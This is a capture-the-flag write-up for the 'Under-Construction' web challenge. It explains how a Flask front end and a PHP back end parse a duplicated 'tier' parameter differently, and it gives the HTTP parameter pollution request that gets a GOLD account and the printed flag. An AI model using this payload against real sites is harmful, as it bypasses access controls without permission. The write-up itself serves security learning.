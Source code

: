 # Under-Construction
> We were building a web app but the new CEO wants it remade in php.

## About the Challenge
We got 2 websites, the first one was created using `Flask` and the second one was created using PHP. And I got the source code too (You can download the source code [here](22790c2f38bd6adde75753641011c223db7e2c0ec718df6e883976ed9c518ca0a86ef67b7e153fd07a9fa734f6a5350028ca266e3bf646f1096d2c4d536ff45a.zip))

In the first website, there are some functionality that we can test such as register an account, login, and also logout feature. When creating an account, users can select their membership tier (BLUE, RED, GREEN, and GOLD)


[Image extracted text: HELLO
HomeLoginSign Up
Jumbotron with icon
Sign Up
Username
Jusername
Password
Password
Select tier:
BLUE
Sign Up]


And in the second website, there is only 1 feature (Login user).


[Image extracted text: PHP login
Username
Password
Login
Invalid credentials]


In the `authorized_routes.py` file, there is a function to register as a user

```python
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

We can register an account but there is some restriction (We can't register an account using GOLD tier). And the body request will be sent to `account_migrator.php` in port 1336. Now we need to check `account_migrator.php` file

```php
function insertUser($username, $password, $tier)
{
	$hash = password_hash($password, PASSWORD_BCRYPT);
	if($hash === false) {
		http_response_code(500);
		exit();
	}
	$host = getenv("DB_HOST");
	$dbname = getenv("MYSQL_DATABASE");
	$charset = "utf8";
	$port = "3306";

	$sql_username = "forge";
	$sql_password = getenv("MYSQL_PASSWORD");
	try {
		$pdo = new PDO(
			dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
			username: $sql_username,
			password: $sql_password,
		);

		$pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
		$stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
		$stmt->execute([$username, $hash, $tier]);
		echo "User inserted";
	} catch (PDOException $e) {
		throw new PDOException(
			message: $e->getMessage(),
			code: (int) $e->getCode()
		);
	}
}
```

This function will inserting user information into `Users` table. And inside the `index.php` file, we need to use a gold tier user in order to obtain the flag

```php
if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }
```

## How to Solve?
To create an account with GOLD tier, we need to use `HTTP Parameter Pollution` technique. In Flask, the framework will read first parameter while in PHP the program will read the second parameter. Here is the example of HTTP request:

```
POST /signup
Host: under-construction-web.2023.ctfcompetition.com
...

username=owkwokwok&password=wokwokwokw&tier=blue&tier=gold
```

Now, we need to login to the second website to obtain the flag


[Image extracted text: Username
Password
Login
Login successful. Welcome owkwokwok: CTF
ff79e2741f2labd77dc48f17bab64c3d}]


```
CTF{ff79e2741f21abd77dc48f17bab64c3d}
```